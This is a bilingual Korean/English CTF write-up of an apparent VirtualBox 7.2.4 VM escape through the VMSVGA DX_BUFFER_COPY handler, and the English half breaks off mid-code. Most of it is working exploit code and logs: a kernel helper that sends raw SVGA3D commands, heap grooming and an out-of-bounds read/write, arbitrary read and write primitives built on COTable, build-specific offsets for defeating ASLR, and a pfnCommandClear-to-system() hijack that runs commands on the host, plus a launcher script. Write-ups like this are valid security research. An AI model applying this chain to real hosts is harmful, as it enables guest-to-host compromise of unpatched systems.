

<div class="post-language-switch" data-post-language-switch role="group" aria-label="Article language">
    <button type="button" class="post-language-switch__button is-active" data-post-language-button="ko" aria-pressed="true">KR</button>
    <button type="button" class="post-language-switch__button" data-post-language-button="en" aria-pressed="false">EN</button>
</div>

:::section{data-post-language-panel="ko"}
## 1. 문제 개요

EasyVBox는 VirtualBox의 VMSVGA 3D 명령 처리 경로를 이용한 VM escape 문제다. 시작점은 게스트이고, 목표는 L1 호스트의 GUI 세션에서 `/usr/bin/gnome-calculator`를 실행하는 것이다.

익스플로잇을 실행하려면 게스트에서 root 권한 또는 `CAP_SYS_MODULE`이 필요하다. 다만 이 권한은 원시 SVGA3D 명령을 보내기 위한 조건일 뿐이다. 실제 목표는 호스트의 `VirtualBoxVM` 프로세스 안에 있는 VMSVGA 객체를 손상시키는 것이다.

취약점은 `SVGA_3D_CMD_DX_BUFFER_COPY`(이하 `DX_BUFFER_COPY`)에 있었다. 이 명령은 원래 `SVGA3D_BUFFER` surface 사이에서만 바이트 단위 복사를 해야 한다. 그런데 VirtualBox 7.2.4 r170995에서는 `src`와 `dest`가 정말 `SVGA3D_BUFFER` surface인지 확인하지 않았다.

이 검증 누락 때문에 `height=0`인 `SVGA3D_NV12` surface를 복사 경로에 넣을 수 있다. 이를 이용해 먼저 호스트 힙 누수를 만들고, 누수된 데이터 안에서 살아 있는 `VMSVGAMOB`를 찾았다. 이후 같은 버그를 반대 방향으로 사용해 MOB 메타데이터를 고친 뒤, COTable 경로를 `VirtualBoxVM` 사용자 공간 AAR/AAW로 바꿨다. 마지막에는 `pfnCommandClear`를 `system()`으로 바꿔 명령 실행을 얻었다.

## 2. 환경

환경은 아래와 같다.

- L0 / outer host: VMware Workstation
- L1 / target host: Ubuntu 24.04 Desktop, Oracle VirtualBox 7.2.4 r170995
- L2 / target guest: VirtualBox 안의 Ubuntu 24.04
- 게스트 커널: `6.17.0-23-generic`
- Guest Additions: 설치됨
- 게스트 그래픽 스택: `vmwgfx` DRM 경로 활성화
- 그래픽 컨트롤러: VMSVGA
- 3D Acceleration: enabled
- 헬퍼 모듈: 독립형 `/dev/vgapwn_dev`
- Secure Boot: disabled
- 목표: L1 호스트 GUI 세션에서 `/usr/bin/gnome-calculator` 실행

여기서 제일 중요한 설정은 `3D Acceleration: enabled`. 이 옵션이 켜져 있어야 게스트가 surface 생성, 복사, readback, COTable 갱신 같은 SVGA3D 명령을 보낼 수 있다. 명령을 만드는 쪽은 게스트지만, 실제 처리는 호스트의 `VirtualBoxVM` 프로세스가 한다.

```text
게스트 SVGA3D 명령
    -> VirtualBoxVM VMSVGA 명령 핸들러
    -> 호스트 힙 객체 생성/수정
    -> 메타데이터 손상
```

이 관점으로 보면 문제의 방향이 명확해진다. 게스트가 보낸 것은 그래픽 명령이지만, 그 결과는 호스트 프로세스의 힙 객체에 반영된다.

## 3. 공격에 필요한 객체

이 글에서 계속 나오는 객체는 많지 않다.

- surface: 게스트가 정의하는 그래픽 리소스. 코드와 맞추기 위해 번역하지 않는다.
- MOB: 게스트 리소스와 백킹 메모리를 이어주는 SVGA 객체.
- `VMSVGAMOB`: MOB를 호스트 프로세스에서 관리하는 구조체.
- `VMSVGAGBO`: MOB의 백킹 메타데이터. 여기서는 `pvHost`와 `cbTotal`만 보면 된다.
- COTable: 원래는 DX 객체 테이블을 동기화하는 기능. 손상된 MOB와 엮이면 AAR/AAW가 된다.

마지막에 건드릴 곳은 `pFuncsVGPU9->pfnCommandClear`. `SVGA_3D_CMD_CLEAR`가 들어왔을 때 호출되는 핸들러 슬롯이다.

## 4. 취약점 원인

먼저 `DX_BUFFER_COPY` 페이로드부터 보자.

```c
typedef struct SVGA3dCmdDXBufferCopy {
    SVGA3dSurfaceId dest;
    SVGA3dSurfaceId src;
    uint32 destX;
    uint32 srcX;
    uint32 width;
} SVGA3dCmdDXBufferCopy;
```

페이로드에는 `height`나 `depth`가 없다. 핸들러는 `src`와 `dest` surface를 매핑하면서 `box.h/.d`를 얻는다.

정상적인 버퍼 복사라면 다음 조건이 필요하다.

- source format == `SVGA3D_BUFFER`
- destination format == `SVGA3D_BUFFER`
- source box `h == 1 && d == 1`
- destination box `h == 1 && d == 1`

VirtualBox 7.2.6에서는 이 조건을 확인한다. 반면 7.2.4에는 이 검증이 빠져 있었다.

```c
if (   mapBufferSrc.format == SVGA3D_BUFFER && mapBufferSrc.box.h == 1 && mapBufferSrc.box.d == 1
    && mapBufferDest.format == SVGA3D_BUFFER && mapBufferDest.box.h == 1 && mapBufferDest.box.d == 1)
{
    uint8_t const *pu8BufferSrc = (uint8_t *)mapBufferSrc.pvData;
    uint32_t const cbBufferSrc = mapBufferSrc.cbRow;

    uint8_t *pu8BufferDest = (uint8_t *)mapBufferDest.pvData;
    uint32_t const cbBufferDest = mapBufferDest.cbRow;

    if (   pCmd->srcX < cbBufferSrc
        && pCmd->width <= cbBufferSrc - pCmd->srcX
        && pCmd->destX < cbBufferDest
        && pCmd->width <= cbBufferDest - pCmd->destX)
        memcpy(&pu8BufferDest[pCmd->destX],
               &pu8BufferSrc[pCmd->srcX],
               pCmd->width);
}
```

7.2.4에서는 `srcX`, `destX`, `width`, `cbRow`만 맞으면 `memcpy`까지 도달할 수 있었다. 문제는 여기서 나온다.

사용한 surface 조합은 다음과 같다.

- source: `SVGA3D_NV12`, `w=0x1000`, `h=0`, `d=1`
- destination: `SVGA3D_LUMINANCE8`, `w=0x1000`, `h=1`, `d=1`
- copy width: `0x1000`

둘 다 `SVGA3D_BUFFER`가 아니다. 7.2.6에서는 걸러지지만, 7.2.4에서는 복사 경로에 들어간다.

핵심은 `height=0`이다. 백킹 크기는 거의 없어지는데, 매핑 결과의 `cbRow`는 너비를 기준으로 남는다. 그래서 실제 할당보다 큰 `memcpy`가 가능해진다.

```text
height=0 NV12 surface
    -> 작은 백킹 할당
    -> cbRow는 width 기반
    -> DX_BUFFER_COPY width 검사 통과
    -> host heap OOB read/write
```

## 5. 명령 전송

원하는 SVGA3D 명령을 그대로 보내기 위해 독립형 헬퍼 모듈을 사용했다. `vmwgfx`를 갈아끼우지는 않았다. 이미 로드된 `vmwgfx`에서 reserve/commit 경로만 빌렸다.

```c
cmd = p_vmw_cmd_ctx_reserve(dev_ref, size, SVGA3D_INVALID_ID);
copy_from_user(cmd, buf, size);

if (use_commit_flush)
    p_vmw_cmd_commit_flush(dev_ref, size);
else
    p_vmw_cmd_commit(dev_ref, size);
```

원격 환경에서는 `use_commit_flush=1`이 필요했다. COTable readback이 이전 값을 돌려주는 경우가 있었는데, flush를 넣으면 정상적으로 동기화됐다.

## 6. 첫 OOB 읽기

처음부터 강한 읽기/쓰기 primitive가 나온 것은 아니다. 먼저 호스트 힙 누수가 필요했다. 백킹이 거의 없는 `height=0` surface를 만들고, 그 뒤쪽에 마커 MOB를 배치했다.

```c
define_surface(transfer_id, buf_size, 1, 1, SVGA3D_LUMINANCE8);
define_gmob(transfer_id, transfer_phys, buf_size);
bind_surface(transfer_id, transfer_id);

define_surface(sid, buf_size, 0, 1, SVGA3D_NV12);
buffer_copy(sid, transfer_id, 1);

define_gmob(sid, transfer_phys, 0x01421337);

buffer_copy(sid, transfer_id, buf_size);
readback_surface(transfer_id);
read_transfer_buffer(buf, buf_size);
```

배치는 대략 이렇다.

```text
[ height=0 NV12 backing ][ host heap ... ][ marker VMSVGAMOB ]
             |
             +-- DX_BUFFER_COPY --> transfer surface
```

첫 번째 `buffer_copy(..., 1)`은 매핑 경로를 준비한다. 두 번째 `buffer_copy(..., buf_size)`에서 실제 OOB 읽기가 일어난다. 결과는 `transfer_surface`에 들어가고, `readback_surface()`로 게스트 버퍼에서 읽어 온다.

## 7. 살아 있는 MOB 찾기

누수만 얻었다고 끝은 아니다. 다시 조작할 수 있는 살아 있는 `VMSVGAMOB`가 필요하다.

마커는 `VMSVGAMOB.Gbo.cbTotal`에 넣은 `0x01421337`이다. 누수 버퍼에서 이 값을 찾고, `offsetof(VMSVGAMOB, Gbo.cbTotal)`을 빼서 MOB 시작 후보를 계산했다.

```c
uint64_t marker_off = offsetof(VMSVGAMOB, Gbo.cbTotal);

for (uint32_t pos = 0; pos + 3 < GROOM_SCAN_LIMIT; pos++) {
    if (buf[pos] != 0x37 || buf[pos + 1] != 0x13 ||
        buf[pos + 2] != 0x42 || buf[pos + 3] != 0x01)
        continue;
    if (pos < marker_off)
        continue;

    uint64_t mob_offset = pos - marker_off;
    VMSVGAMOB *mob = (VMSVGAMOB *)(snapshot + mob_offset);

    if (mob->Core.Key != sid)
        continue;

    save_candidate(sid, pos, mob_offset, snapshot);
}
```

마커만으로는 부족하다. 힙 누수에는 이미 해제된 객체가 섞일 수 있다. 실제로 스캔 범위를 넓혔을 때 `0x2b0` 근처의 잘못된 마커를 잡았고, 이후 상태 누수 단계에서 깨졌다.

그래서 후보를 고를 때는 네 가지를 봤다.

- `Core.Key == sid`
- COTable에 붙였을 때 host-backed MOB로 바뀌는지
- COTable 왕복 검증이 성공하는지
- OOB write-back이 성공하는지

원격용 프리셋에서는 앞쪽 후보만 보게 했다.

```text
GROOM_SCAN_LIMIT=0x100
GROOM_COLLECT_CANDIDATES=2
```

## 8. OOB 쓰기로 MOB 고치기

이제 같은 버그를 반대 방향으로 사용한다. 누수를 만들 때의 복사 방향을 뒤집어서, 수정한 바이트를 호스트 힙 쪽으로 밀어 넣는다.

1. 누수 스냅샷에서 대상 `VMSVGAMOB` 위치를 잡는다.
2. 스냅샷 안의 `Gbo.cbTotal`, `Gbo.pvHost`, `fGboFlags`를 고친다.
3. 수정한 바이트를 `transfer_surface`에 올린다.
4. `DX_BUFFER_COPY(src=transfer_surface, dst=height0_surface)`를 보낸다.
5. 바이트가 `height=0` 백킹 뒤쪽의 힙으로 써진다.

```c
static int corrupt_host_gmob(ctx_t *ctx)
{
    transfer_write(ctx, ctx->corrupted_mob_buffer, ctx->corrupt_size);
    dx_update_subresource(ctx->transfer_surface_id, ctx->corrupt_size);

    return dx_buffer_copy(ctx->transfer_surface_id,
                          ctx->groomed_surface,
                          ctx->corrupt_size);
}
```

`DX_UPDATE_SUBRESOURCE`는 준비 단계이다. 실제 덮어쓰기는 그다음 `DX_BUFFER_COPY`에서 일어난다.

중요한 필드는 세 개.

- `Gbo.cbTotal`: 복사 크기
- `Gbo.pvHost`: 호스트 백킹 포인터
- `fGboFlags`: host-backed 경로 유지. 이 빌드에서는 `0x2`로 관찰했다.

쓰기가 살아 있는 객체에 닿았는지는 다시 읽어서 확인했다.

```text
[.] verifying OOB write-back against candidate 0 with pvHost=0x71b31c7d6768
[.] MOB key=24856 ... flags=0x2 cb=0x20 pvHost=0x71b31c7d6768
[+] candidate 0 OOB write-back verified
```

## 9. COTable로 AAR/AAW 만들기

이제 `Gbo.pvHost`와 `Gbo.cbTotal`을 조절할 수 있다. COTable readback, 갱신, 확장 경로는 이 MOB를 백킹으로 사용한다. 그래서 원래 기능이 그대로 `VirtualBoxVM` 사용자 공간 AAR/AAW가 된다.

이건 호스트 커널 R/W가 아니다. 범위는 `VirtualBoxVM` 프로세스의 사용자 공간 주소.

아래 레이아웃은 VirtualBox 7.2.4 r170995 Ubuntu/stub 빌드에서 관찰한 값이다. 다른 빌드에서는 달라질 수 있다.

```c
typedef struct VMSVGAGBO
{
    uint32_t  fGboFlags;
    uint32_t  cTotalPages;
    uint32_t  cbTotal;
    uint32_t  cSegsUsed;
    void     *pvDescriptors;
    uint64_t *paGCPhysPages;
    void     *paPageLocks;
    void    **papvPages;
    void     *paSegs;
    void     *pvHost;
} VMSVGAGBO;

typedef struct VMSVGAMOB
{
    AVLU32NODECORE Core;
    RTLISTNODE     nodeLRU;
    VMSVGAGBO      Gbo;
} VMSVGAMOB;
```

읽기는 이렇게 된다.

```c
int aar(ctx_t *ctx, uint64_t host_addr, void *out, size_t size)
{
    mob_set_pvhost(ctx, ctx->corrupted_mob, host_addr);
    mob_set_cbtotal(ctx, ctx->corrupted_mob, size);

    dx_readback_cotable(ctx, ctx->cotable_id);
    read_transfer_buffer(ctx, out, size);

    return 0;
}
```

쓰기는 반대 방향이다.

```c
int aaw(ctx_t *ctx, uint64_t host_addr, const void *data, size_t size)
{
    write_transfer_buffer(ctx, data, size);

    mob_set_pvhost(ctx, ctx->corrupted_mob, host_addr);
    mob_set_cbtotal(ctx, ctx->corrupted_mob, size);

    dx_update_cotable(ctx, ctx->cotable_id);

    return 0;
}
```

위험한 쓰기는 모두 다시 읽어서 확인했다.

```c
static int write_checked(ctx_t *ctx, uint64_t addr,
                         const void *contents, size_t size,
                         const char *label)
{
    uint8_t verify[MAX_VERIFY_SIZE];

    arbitrary_write(ctx, addr, contents, size);
    arbitrary_read(ctx, addr, verify, size);

    return memcmp(verify, contents, size) == 0 ? 0 : -1;
}
```

## 10. 상태 구조체 누수

AAR/AAW가 생기면 다음 문제는 ASLR이다. 출발점은 `VMSVGAMOB.nodeLRU`였다.

```text
corrupted_mob->nodeLRU
    -> MOBLRUList anchor
    -> PVMSVGAR3STATE
    -> pFuncsVGPU9
    -> pfnCommandClear
    -> VBoxDD.so base
    -> libc base
```

원격 빌드에서 사용한 오프셋은 다음과 같다.

```text
MOBLRUList anchor      = candidate anchor
PVMSVGAR3STATE         = anchor - 0x12d0
pFuncsVGPU9 field      = PVMSVGAR3STATE + 0x12f0
pfnCommandClear slot   = pFuncsVGPU9 + 0x60
```

후보 포인터는 범위만 보고 고르지 않았다. `pfnCommandClear`가 `VBoxDD.so` 안의 코드 포인터인지 확인했고, 페이지 단위로 내려가며 ELF magic을 찾았다.

```c
uint64_t clear_pfn = aar64(ctx, pfuncs_vgpu9 + OFF_COMMAND_CLEAR);

if (!looks_like_code_ptr(clear_pfn))
    reject_candidate();

uint64_t vboxdd_base = clear_pfn & ~0xfffULL;

while (vboxdd_base > clear_pfn - MAX_MODULE_SCAN) {
    uint32_t magic = aar32(ctx, vboxdd_base);

    if (magic == 0x464c457f)   // "\x7fELF"
        break;

    vboxdd_base -= 0x1000;
}
```

원격 실행 로그는 이렇게 나왔다.

```text
[+] selected groom candidate 0 via direct LRU anchor
[.] MOBLRUList anchor addr: 0x71b32c1ee7a0
[.] PVMSVGAR3STATE addr: 0x71b32c1ed4d0
[+] pFuncsVGPU9 field: 0x71b32c1ee7c0
[+] pFuncsVGPU9 table: 0x71b32c2bf030
[+] command clear function pointer: 0x71b33170e840
[+] vboxdd base: 0x71b331600000 (stub-ubuntu)
```

`VBoxDD.so` 베이스를 얻은 뒤 `write@GOT`를 읽어 libc 베이스를 계산했다. 문제 이미지의 libc 빌드가 고정되어 있고, 해당 GOT 엔트리가 이미 실제 `write` 주소를 들고 있다는 가정이다.

```text
[+] pDevIns: 0x71b37002e000, pThisCC: 0x71b37002e180
[+] libc write: 0x71b386b1c590, libc base: 0x71b386a00000, system: 0x71b386a58750
```

## 11. 코드 실행

마지막은 `pFuncsVGPU9->pfnCommandClear` 가로채기이다. ROP까지 갈 필요는 없었다.

VirtualBox 7.2.4의 clear 핸들러 호출 지점은 대략 이렇다.

```c
return pSvgaR3State->pFuncsVGPU9->pfnCommandClear(
    pThisCC, cid, clearFlag, color, depth, stencil, cRects, pRect);
```

x86_64 SysV ABI에서 첫 번째 인자는 `RDI`. `pfnCommandClear`를 `system`으로 바꾸면 호출은 사실상 이렇게 된다.

```text
system(pThisCC)
```

그래서 `pThisCC`에 명령 문자열을 써두고, 핸들러 포인터를 잠시 바꾼 뒤, `SVGA_3D_CMD_CLEAR`를 보냈다.

```c
uint64_t original = aar64(ctx, command_clear_pfn_addr);

write_checked(ctx, command_clear_pfn_addr, &system_addr, 8,
              "command clear handler");

write_checked(ctx, pthiscc, command, strlen(command) + 1,
              "command string");

submit_clear_command(ctx);

write_checked(ctx, command_clear_pfn_addr, &original, 8,
              "command clear restore");
```

상태는 이렇게 바뀐다.

```text
before  : pfnCommandClear -> original VBoxDD.so handler
after   : pfnCommandClear -> libc system
argument: pThisCC -> "/usr/bin/gnome-calculator&"
trigger : SVGA_3D_CMD_CLEAR
restore : pfnCommandClear -> original handler
```

`pThisCC` 바이트는 복구하지 않았다. 목표가 호스트 calculator 1회 실행이었기 때문이다. 대신 핸들러 포인터는 바로 원래 값으로 돌렸고, 그 쓰기도 다시 읽어서 확인했다.

## 12. 안정성

원격 환경에서는 다음 조건을 지켰다.

- 새 스냅샷에서 최종 익스플로잇을 한 번만 실행
- 탐색 실행 후 같은 부팅에서 최종 익스플로잇 실행 금지
- 헬퍼는 `use_commit_flush=1`로 로드
- 마커 발견 결과만 믿지 않고 COTable 왕복 검증과 OOB write-back 확인
- 넓은 스캔 대신 앞쪽 마커 사용
- 핸들러 덮어쓰기, 명령 문자열 쓰기, 복구는 모두 다시 읽어서 확인

최종 프리셋은 다음 값이다.

```text
GROOM_SCAN_LIMIT=0x100
GROOM_COLLECT_CANDIDATES=2
GROOM_VALIDATE_COTABLE=1
VALIDATE_COTABLE_IO=1
```

업로드한 파일은 세 개.

```text
exploit
vgapwn-standalone-6.17.0-23-generic.ko
run_final.sh
```

`run_final.sh`는 같은 스냅샷에서 두 번 실행하지 않도록 마커 파일을 남겼다.

```bash
if [ -e .easyvbox_attempted ]; then
    echo "final attempt marker already exists; ask for a snapshot restore before retrying."
    exit 1
fi
touch .easyvbox_attempted

PWN_REMOTE_PRESET=1 PWN_CMD="${PWN_CMD:-/usr/bin/gnome-calculator&}" ./exploit
```

## 13. 결과

최종 실행은 새 스냅샷에서 진행했다.

```bash
PWN_REMOTE_PRESET=1 PWN_CMD="/usr/bin/gnome-calculator&" ./exploit
```

후보 탐색과 primitive 검증은 통과했다.

```text
[+] candidate 0: surface 6118 marker 50, MOB offset 20, key=24856
[+] candidate 0 passed early COTable validation
[+] candidate 1: surface 6120 marker 50, MOB offset 20, key=24864
[+] candidate 1 passed early COTable validation
[+] collected 2 groom candidate(s), last surface 6120

[+] candidate 0 COTable round-trip verified
[+] candidate 0 OOB write-back verified
[+] selected groom candidate 0 via direct LRU anchor
[.] Primitives ready for exploitation
```

핸들러 덮어쓰기, 명령 문자열 쓰기, 복구도 모두 다시 읽어서 확인했다.

```text
[+] verified command clear handler write
[+] verified command string write
[.] Triggering system command...
[.] Restoring command clear handler
[+] verified command clear restore write
```

로그가 여기까지 찍힌 뒤 호스트 화면에 calculator 창이 떴다.


:::

:::section{data-post-language-panel="en" hidden="hidden"}
## 1. Overview

EasyVBox is a VM escape challenge that targets VirtualBox's VMSVGA 3D command handling path. The attack starts in the guest, and the goal is to launch `/usr/bin/gnome-calculator` in the L1 host's GUI session.

Running the exploit requires root privileges in the guest, or `CAP_SYS_MODULE`. That privilege is only needed to send raw SVGA3D commands. The real target is the VMSVGA object state inside the host-side `VirtualBoxVM` process.

The bug was in `SVGA_3D_CMD_DX_BUFFER_COPY`, which I will call `DX_BUFFER_COPY` below. This command is supposed to copy bytes only between `SVGA3D_BUFFER` surfaces. In VirtualBox 7.2.4 r170995, however, the handler did not check whether `src` and `dest` were actually `SVGA3D_BUFFER` surfaces.

Because that validation was missing, I could route a `SVGA3D_NV12` surface with `height=0` through the copy path. I first used that to leak host heap data and find a live `VMSVGAMOB` in the leaked buffer. Then I used the same bug in the opposite direction to patch MOB metadata. From there, the COTable path became an AAR/AAW primitive in the `VirtualBoxVM` user-space process. The final step was to replace `pfnCommandClear` with `system()` and trigger command execution.

## 2. Environment

The setup was:

- L0 / outer host: VMware Workstation
- L1 / target host: Ubuntu 24.04 Desktop, Oracle VirtualBox 7.2.4 r170995
- L2 / target guest: Ubuntu 24.04 inside VirtualBox
- Guest kernel: `6.17.0-23-generic`
- Guest Additions: installed
- Guest graphics stack: `vmwgfx` DRM path enabled
- Graphics controller: VMSVGA
- 3D Acceleration: enabled
- Helper module: standalone `/dev/vgapwn_dev`
- Secure Boot: disabled
- Goal: launch `/usr/bin/gnome-calculator` in the L1 host GUI session

The important setting is `3D Acceleration: enabled`. Without it, the guest cannot send SVGA3D commands such as surface creation, copies, readback, or COTable updates. The guest builds the commands, but the host-side `VirtualBoxVM` process handles them.

```text
Guest SVGA3D command
    -> VirtualBoxVM VMSVGA command handler
    -> host heap object creation/modification
    -> metadata corruption
```

That is the useful way to look at the challenge. The guest sends graphics commands, but the effects land on heap objects in the host process.

## 3. Objects Needed for the Attack

Only a few objects matter in this writeup.

- surface: a graphics resource defined by the guest. I keep the original term to match the code.
- MOB: an SVGA object that connects a guest resource to backing memory.
- `VMSVGAMOB`: the host-side structure that manages a MOB.
- `VMSVGAGBO`: backing metadata for a MOB. For this exploit, only `pvHost` and `cbTotal` matter.
- COTable: normally used to synchronize DX object tables. With a corrupted MOB, it becomes AAR/AAW.

The final target is `pFuncsVGPU9->pfnCommandClear`, the handler slot used when `SVGA_3D_CMD_CLEAR` is submitted.

## 4. Root Cause

Start with the `DX_BUFFER_COPY` payload.

```c
typedef struct SVGA3dCmdDXBufferCopy {
    SVGA3dSurfaceId dest;
    SVGA3dSurfaceId src;
    uint32 destX;
    uint32 srcX;
    uint32 width;
} SVGA3dCmdDXBufferCopy;
```

The payload has no `height` or `depth` field. The handler obtains `box.h/.d` while mapping the `src` and `dest` surfaces.

A valid buffer copy needs these conditions:

- source format == `SVGA3D_BUFFER`
- destination format == `SVGA3D_BUFFER`
- source box `h == 1 && d == 1`
- destination box `h == 1 && d == 1`

VirtualBox 7.2.6 checks those conditions. VirtualBox 7.2.4 did not.

```c
if (   mapBufferSrc.format == SVGA3D_BUFFER && mapBufferSrc.box.h == 1 && mapBufferSrc.box.d == 1
    && mapBufferDest.format == SVGA3D_BUFFER && mapBufferDest.box.h == 1 && mapBufferDest.box.d == 1)
{
    uint8_t const *pu8BufferSrc = (uint8_t *)mapBufferSrc.pvData;
    uint32_t const cbBufferSrc = mapBufferSrc.cbRow;

    uint8_t *pu8BufferDest = (uint8_t *)mapBufferDest.pvData;
    uint32_t const cbBufferDest = mapBufferDest.cbRow;

    if (   pCmd->srcX < cbBufferSrc
        && pCmd->width <= cbBufferSrc - pCmd->srcX
        && pCmd->destX < cbBufferDest
        && pCmd->width <= cbBufferDest - pCmd->destX)
        memcpy(&pu8BufferDest[pCmd->destX],
               &pu8BufferSrc[pCmd->srcX],
               pCmd->width);
}
```

In 7.2.4, reaching `memcpy` only required `srcX`, `destX`, `width`, and `cbRow` to line up.

The surface combination I used was:

- source: `SVGA3D_NV12`, `w=0x1000`, `h=0`, `d=1`
- destination: `SVGA3D_LUMINANCE8`, `w=0x1000`, `h=1`, `d=1`
- copy width: `0x1000`

Neither surface is `SVGA3D_BUFFER`. Version 7.2.6 rejects this, but version 7.2.4 lets it enter the copy path.

The trick is `height=0`. The backing allocation becomes almost empty, but the mapped `cbRow` still comes from the width. That allows a `memcpy` larger than the actual allocation.

```text
height=0 NV12 surface
    -> tiny backing allocation
    -> cbRow still based on width
    -> DX_BUFFER_COPY width check passes
    -> host heap OOB read/write
```

## 5. Sending Commands

To send arbitrary SVGA3D commands, I used a standalone helper module. I did not replace `vmwgfx`. I only reused the reserve/commit path from the already loaded `vmwgfx` driver.

```c
cmd = p_vmw_cmd_ctx_reserve(dev_ref, size, SVGA3D_INVALID_ID);
copy_from_user(cmd, buf, size);

if (use_commit_flush)
    p_vmw_cmd_commit_flush(dev_ref, size);
else
    p_vmw_cmd_commit(dev_ref, size);
```

On the remote environment, `use_commit_flush=1` was necessary. COTable readback sometimes returned stale data, and flushing made the synchronization reliable.

## 6. First OOB Read

The bug does not immediately give a strong read/write primitive. I first needed a host heap leak. I created a `height=0` surface with almost no backing storage, then placed a marker MOB after it.

```c
define_surface(transfer_id, buf_size, 1, 1, SVGA3D_LUMINANCE8);
define_gmob(transfer_id, transfer_phys, buf_size);
bind_surface(transfer_id, transfer_id);

define_surface(sid, buf_size, 0, 1, SVGA3D_NV12);
buffer_copy(sid, transfer_id, 1);

define_gmob(sid, transfer_phys, 0x01421337);

buffer_copy(sid, transfer_id, buf_size);
readback_surface(transfer_id);
read_transfer_buffer(buf, buf_size);
```

The layout is roughly:

```text
[ height=0 NV12 backing ][ host heap ... ][ marker VMSVGAMOB ]
             |
             +-- DX_BUFFER_COPY --> transfer surface
```

The first `buffer_copy(..., 1)` prepares the mapping path. The second `buffer_copy(..., buf_size)` performs the actual OOB read. The result lands in `transfer_surface`, then `readback_surface()` makes it readable from the guest buffer.

## 7. Finding a Live MOB

A leak alone is not enough. I needed a live `VMSVGAMOB` that I could corrupt later.

The marker was `0x01421337`, written into `VMSVGAMOB.Gbo.cbTotal`. I searched for that value in the leak buffer, then subtracted `offsetof(VMSVGAMOB, Gbo.cbTotal)` to recover candidate MOB starts.

```c
uint64_t marker_off = offsetof(VMSVGAMOB, Gbo.cbTotal);

for (uint32_t pos = 0; pos + 3 < GROOM_SCAN_LIMIT; pos++) {
    if (buf[pos] != 0x37 || buf[pos + 1] != 0x13 ||
        buf[pos + 2] != 0x42 || buf[pos + 3] != 0x01)
        continue;
    if (pos < marker_off)
        continue;

    uint64_t mob_offset = pos - marker_off;
    VMSVGAMOB *mob = (VMSVGAMOB *)(snapshot + mob_offset);

    if (mob->Core.Key != sid)
        continue;

    save_candidate(sid, pos, mob_offset, snapshot);
}
```

The marker is only a hint. The leaked heap can contain stale freed objects. When I widened the scan range, I picked up a bad marker around `0x2b0`, and the exploit later broke during state leakage.

So I used four checks before trusting a candidate.

- `Core.Key == sid`
- whether it becomes a host-backed MOB after attaching it to COTable
- whether the COTable round-trip check succeeds
- whether OOB write-back succeeds

For the remote preset, I only scanned the early candidates.

```text
GROOM_SCAN_LIMIT=0x100
GROOM_COLLECT_CANDIDATES=2
```

## 8. Fixing the MOB with OOB Write

The same bug works in the opposite direction. For the leak, I copied from the area after the `height=0` surface. For corruption, I reversed the copy direction and pushed modified bytes into the host heap.

1. Locate the target `VMSVGAMOB` in the leak snapshot.
2. Patch `Gbo.cbTotal`, `Gbo.pvHost`, and `fGboFlags` inside the snapshot.
3. Upload the modified bytes to `transfer_surface`.
4. Send `DX_BUFFER_COPY(src=transfer_surface, dst=height0_surface)`.
5. The bytes are written past the `height=0` backing allocation into the heap.

```c
static int corrupt_host_gmob(ctx_t *ctx)
{
    transfer_write(ctx, ctx->corrupted_mob_buffer, ctx->corrupt_size);
    dx_update_subresource(ctx->transfer_surface_id, ctx->corrupt_size);

    return dx_buffer_copy(ctx->transfer_surface_id,
                          ctx->groomed_surface,
                          ctx->corrupt_size);
}
```

`DX_UPDATE_SUBRESOURCE` is only the preparation step. The actual overwrite happens in the following `DX_BUFFER_COPY`.

The important fields are:

- `Gbo.cbTotal`: copy size
- `Gbo.pvHost`: host backing pointer
- `fGboFlags`: keeps the host-backed path active. In this build, I observed `0x2`.

I verified that the write reached a live object by reading it back.

```text
[.] verifying OOB write-back against candidate 0 with pvHost=0x71b31c7d6768
[.] MOB key=24856 ... flags=0x2 cb=0x20 pvHost=0x71b31c7d6768
[+] candidate 0 OOB write-back verified
```

## 9. Building AAR/AAW with COTable

At this point, I could control `Gbo.pvHost` and `Gbo.cbTotal`. COTable readback, update, and grow paths use this MOB as backing storage. That turns the normal COTable behavior into AAR/AAW inside the `VirtualBoxVM` user-space process.

This is not host kernel read/write. The range is the user-space address space of the `VirtualBoxVM` process.

The structure layout below is what I observed on the VirtualBox 7.2.4 r170995 Ubuntu/stub build. It can differ on other builds.

```c
typedef struct VMSVGAGBO
{
    uint32_t  fGboFlags;
    uint32_t  cTotalPages;
    uint32_t  cbTotal;
    uint32_t  cSegsUsed;
    void     *pvDescriptors;
    uint64_t *paGCPhysPages;
    void     *paPageLocks;
    void    **papvPages;
    void     *paSegs;
    void     *pvHost;
} VMSVGAGBO;

typedef struct VMSVGAMOB
{
    AVLU32NODECORE Core;
    RTLISTNODE     nodeLRU;
    VMSVGAGBO      Gbo;
} VMSVGAMOB;
```

The read primitive becomes:

```c
int aar(ctx_t *ctx, uint64_t host_addr, void *out, size_t size)
{
    mob_set_pvhost(ctx, ctx->corrupted_mob, host_addr);
    mob_set_cbtotal(ctx, ctx->corrupted_mob, size);

    dx_readback_cotable(ctx, ctx->cotable_id);
    read_transfer_buffer(ctx, out, size);

    return 0;
}
```

The write primitive is the reverse path:

```c
int aaw(ctx_t *ctx, uint64_t host_addr, const void *data, size_t size)
{
